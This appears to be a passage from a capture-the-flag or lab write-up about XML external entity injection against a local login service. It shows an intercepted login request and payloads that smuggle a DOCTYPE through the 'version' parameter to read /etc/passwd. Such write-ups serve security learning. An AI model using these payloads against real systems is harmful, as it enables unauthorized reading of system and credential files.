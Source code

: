 --> So let's try `xml entity injection` payloads after intercepting the request

i found this payload :

```bash
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

--> But for that we have to login as `&admin;` because the payload requires it

#### but wait where we will inject this payload ?

--> So for that let's intercept the login request

and this is what i got :

```bash
POST /login HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://localhost:8000
Connection: close
Referer: http://localhost:8000/login
Cookie: __test=1; session=eyJwb2ludHMiOjB9.YYldfw.MlhlWFVe5ZLZX9fJ1u3Kr3CV5cI
Upgrade-Insecure-Requests: 1

username=%26admin%3B&version=1.0.0
```

--> Here there are 2 parameters `username` and `version` and i found that `version` is reflecting in first tags in `xml` and `username` is reflecting between `<username></username>` so we have to inject the payload in `version` because `<!DOCTYPE>` must be at first tag

so my payload is looking like this :

```bash
value=1.0.2--><!DOCTYPE root [<!ENTITY admin SYSTEM 'file:///etc/passwd'>]><!--
```

so now `xml` look like this :

```bash
<!API version 1.0.2--><!DOCTYPE root [<!ENTITY admin SYSTEM 'file:///etc/passwd'>]><!---->
#and other stuff after this
```

--> and boom we got content of `/etc/passwd` !
